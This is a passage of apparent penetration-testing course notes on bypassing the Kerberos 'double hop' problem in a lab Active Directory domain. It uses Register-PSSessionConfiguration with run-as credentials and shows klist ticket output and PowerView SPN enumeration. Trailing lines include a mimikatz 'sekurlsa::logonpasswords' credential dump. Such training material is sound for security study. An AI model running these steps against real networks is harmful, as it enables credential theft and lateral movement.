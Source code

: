**One trick we can use here is registering a new session configuration using the** [**Register-PSSessionConfiguration**](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/register-pssessionconfiguration?view=powershell-7.2) **cmdlet.**

{% code fullWidth="true" %}
```powershell-session
PS C:\htb> Register-PSSessionConfiguration -Name backupadmsess -RunAsCredential inlanefreight\backupadm
```
{% endcode %}

Once this is done, we need to restart the WinRM service by typing `Restart-Service WinRM` in our current PSSession. This will kick us out, so we'll start a new PSSession using the named registered session we set up previously.

After we start the session, we can see that the double hop problem has been eliminated, and if we type `klist`, we'll have the cached tickets necessary to reach the Domain Controller. This works because our local machine will now impersonate the remote machine in the context of the `backupadm` user and all requests from our local machine will be sent directly to the Domain Controller.

{% code fullWidth="true" %}
```powershell-session
PS C:\htb> Enter-PSSession -ComputerName DEV01 -Credential INLANEFREIGHT\backupadm -ConfigurationName  backupadmsess
[DEV01]: PS C:\Users\backupadm\Documents> klist

Current LogonId is 0:0x2239ba

Cached Tickets: (1)

#0>     Client: backupadm @ INLANEFREIGHT.LOCAL
       Server: krbtgt/INLANEFREIGHT.LOCAL @ INLANEFREIGHT.LOCAL
       KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
       Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
       Start Time: 6/28/2022 13:24:37 (local)
       End Time:   6/28/2022 23:24:37 (local)
       Renew Time: 7/5/2022 13:24:37 (local)
       Session Key Type: AES-256-CTS-HMAC-SHA1-96
       Cache Flags: 0x1 -> PRIMARY
       Kdc Called: DC01
```
{% endcode %}

We can now run tools such as PowerView without having to create a new PSCredential object.

{% code fullWidth="true" %}
```powershell-session
[DEV01]: PS C:\Users\Public> get-domainuser -spn | select samaccountname

```
{% endcode %}

{% hint style="danger" %}
Note: We cannot use `Register-PSSessionConfiguration` from an evil-winrm shell because we won't be able to get the credentials popup. Furthermore, if we try to run this by first setting up a PSCredential object and then attempting to run the command by passing credentials like `-RunAsCredential $Cred`, we will get an error because we can only use `RunAs` from an elevated PowerShell terminal. Therefore, this method will not work via an evil-winrm session as it requires GUI access and a proper PowerShell console. Furthermore, in our testing, we could not get this method to work from PowerShell on a Parrot or Ubuntu attack host due to certain limitations on how PowerShell on Linux works with Kerberos credentials. This method is still highly effective if we are testing from a Windows attack host and have a set of credentials or compromise a host and can connect via RDP to use it as a "jump host" to mount further attacks against hosts in the environment. .
{% endhint %}


[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> Import-Module .\PowerView.ps1
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> get-domainuser -spn | select samaccountname